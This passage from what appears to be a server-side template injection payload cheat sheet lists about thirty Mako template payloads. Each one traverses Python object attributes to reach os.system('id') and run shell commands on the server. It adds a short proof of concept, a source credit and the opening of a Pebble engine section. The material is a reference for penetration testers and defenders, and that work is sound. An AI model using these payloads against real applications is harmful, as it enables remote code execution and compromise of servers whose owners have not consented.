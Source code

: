 ```python
${self.context._with_template.module.cache.util.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.template.module.cache.util.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.util.os.system("id")}
${self.module.cache.util.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.util.compat.inspect.os.system("id")}
${self.module.runtime.util.compat.inspect.linecache.os.system("id")}
${self.module.runtime.exceptions.traceback.linecache.os.system("id")}
${self.module.runtime.exceptions.util.compat.inspect.os.system("id")}
${self.template._mmarker.module.cache.compat.inspect.os.system("id")}
${self.template.module.cache.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.cache.util.os.system("id")}
${self.template._mmarker.module.filters.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.cache.compat.inspect.os.system("id")}
${self.template._mmarker.module.runtime.exceptions.util.os.system("id")}
${self.template.module.filters.compat.inspect.linecache.os.system("id")}
${self.template.module.runtime.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.template.module.runtime.util.os.system("id")}
${self.context._with_template._mmarker.module.cache.util.os.system("id")}
${self.template.module.runtime.exceptions.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.filters.compat.inspect.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.cache.compat.inspect.os.system("id")}
${self.module.runtime.exceptions.compat.inspect.linecache.os.system("id")}
${self.attr._NSAttr__parent.module.runtime.exceptions.util.os.system("id")}
${self.context._with_template._mmarker.module.runtime.util.os.system("id")}
${self.context._with_template.module.filters.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.compat.inspect.os.system("id")}
${self.context._with_template.module.runtime.exceptions.util.os.system("id")}
${self.template.module.runtime.exceptions.traceback.linecache.os.system("id")}
```

PoC :

```python
>>> print(Template("${self.module.cache.util.os}").render())
<module 'os' from '/usr/local/lib/python3.10/os.py'>
```

Source [@podalirius_](https://twitter.com/podalirius_) : [https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/](https://podalirius.net/en/articles/python-context-free-payloads-in-mako-templates/)


---

## Pebble

[Official website](https://pebbletemplates.io/)
> Pebble is a Java templating engine inspired by [Twig](./#twig) and similar to the Python [Jinja](./#jinja2) Template Engine syntax. It features templates inheritance and easy-to-read syntax, ships with built-in autoescaping for security, and includes integrated support for internationalization.
